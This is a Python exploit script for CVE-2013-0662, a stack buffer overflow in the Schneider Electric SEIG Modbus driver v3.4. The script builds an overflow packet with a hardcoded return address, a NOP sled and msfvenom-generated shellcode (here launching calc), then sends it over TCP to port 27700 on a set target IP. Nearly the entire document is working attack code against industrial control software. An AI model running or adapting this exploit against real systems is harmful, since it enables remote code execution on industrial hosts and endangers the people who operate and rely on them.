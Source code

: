 EXP
---

    # Title: SEIG Modbus 3.4 - Remote Code Execution
    # Author: Alejandro Parodi
    # Date: 2018-08-17
    # Vendor Homepage: https://www.schneider-electric.com
    # Software Link: https://github.com/hdbreaker/Ricnar-Exploit-Solutions/tree/master/Medium/CVE-2013-0662-SEIG-Modbus-Driver-v3.34/VERSION%203.4
    # Version: v3.4
    # Tested on: Windows XP SP3
    # CVE: CVE-2013-0662
    # References:
    # https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0662

    import socket
    import struct

    ip = "192.168.127.138"
    port = 27700
    con = (ip, port)


    ####### MESSAGE ##########
    message_header = "\x00\x64"
    message_buffer = "A" * 0x5dc
    eip = struct.pack("<I", 0x7C9C167D)

    # Shellcode generated with:
    # msfvenom -a x86 --platform windows -p windows/exec cmd=calc -e x86/xor_call4 -f python
    # Shellcode Size: 189 bytes
    nopsleed = "\x90" * 100 # \x90 bad char bypass
    shellcode  = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
    shellcode += "\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
    shellcode += "\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
    shellcode += "\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
    shellcode += "\xff\xd5\x63\x61\x6c\x63\x00"

    message = message_header + message_buffer + eip + nopsleed + shellcode
    print "Message Len: " + hex(len(message)) + " bytes"
    ##########################

    ######## PKG HEADER ######
    header_padding = "\x42\x42"
    header_buf_size = "\xFF\xFF"
    header_recv_len = struct.pack(">H", len(message))
    header_end = "\x44"

    header = header_padding + header_buf_size + header_recv_len + header_end
    ##########################

    ######## CRAFTING PAYLOAD ########
    payload = header + message
    print "Package Len: "+hex(len(payload)) + " bytes"
    ##################################

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(con)
    s.send(payload)